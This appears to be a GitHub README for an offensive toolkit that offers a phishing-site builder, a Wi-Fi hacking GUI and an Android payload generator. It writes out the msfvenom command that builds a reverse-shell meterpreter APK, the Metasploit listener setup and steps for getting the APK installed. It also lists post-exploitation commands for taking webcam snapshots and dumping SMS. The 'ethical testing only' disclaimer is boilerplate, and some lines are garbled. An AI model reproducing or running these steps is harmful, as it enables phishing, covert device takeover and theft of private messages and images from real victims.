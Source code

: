 # AVITOOLTION-Phishing
"Hello my friends, this tool will help you design a phishing site easily without needing much understanding or programming. There are also many features to discover. You should download the tool, and as you do, I thank you very much.

# Payload PDF.py #
" msfvenom -p android/meterpreter/reverse_tcp LHOST=your_IP LPORT=your_PORT -o payload.apk "
" Payload PDF.py "
" use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST your_IPOpen-XAI.py
set LPORT your_PORT
exploit "

# Open-XAI.py #

" python3 chat_ai.py "

# Phishing.py #

" python3 Phishing.py "

# Tkinter-haking-wifi.py #

arabic :
هذا الملف الرمحي لبايثون الذي يحتوي على واجهة جيدة لتسهيل عملية الاختراق للوايفاي على المستعمل،وشكرا
English :
This is a Python spear file that contains a good interface to facilitate the process of hacking Wi-Fi for the user. Thank you.


# Android Payload Generator (for Penetration Testing Only)

> ⚠️ **Disclaimer:**  
> This tool is intended for **educational and ethical penetration testing purposes only**.  
> Do **NOT** use it on devices or networks you do not own or have explicit permission to test.  
> The author is not responsible for any misuse.

---

## 📌 Project Description

This script helps you generate a malicious APK payload for Android using `msfvenom` and automatically starts a Metasploit listener to capture the session when the APK is executed on the Android device.

---

## 🧰 Requirements

- Kali Linux or any penetration testing distro
- Installed tools:
  - `msfvenom` (part of Metasploit)
  - `msfconsole`
  - `xterm`
- A rooted or test Android device on the same local network
- Network IP (e.g., `192.168.1.9`)

---

## ⚙️ How It Works

1. Generates a `reverse_tcp` payload for Android (`android/meterpreter/reverse_tcp`)
2. Saves it as an APK file (`android_payload.apk`)
3. Creates a `listener.rc` file for Metasploit to handle the connection
4. Launches `msfconsole` in a new terminal window with the listener preloaded

---

## 🚀 Usage

1. Clone or download this project.
2. Make the script executable:

```bash
chmod +x android_payload.sh

./android_payload.sh

## Transfer the generated android_payload.apk to your Android test device. ##

Install the APK (enable "Unknown Sources" in Android settings).


Launch the app on the Android device — the session will appear in Metasploit.

📂 Files Generated
File	Description
android_payload.apk	The malicious APK file (reverse shell)
listener.rc	Script for auto-starting MSF handler

🧪 Metasploit Commands (once session is active)
bash
نسخ الكود
sessions         # List active sessions
sessions -i 1    # Interact with session 1
sysinfo          # Get device info
webcam_snap      # Take a snapshot using front cam
dump_sms         # Extract SMS (if permissions allow)
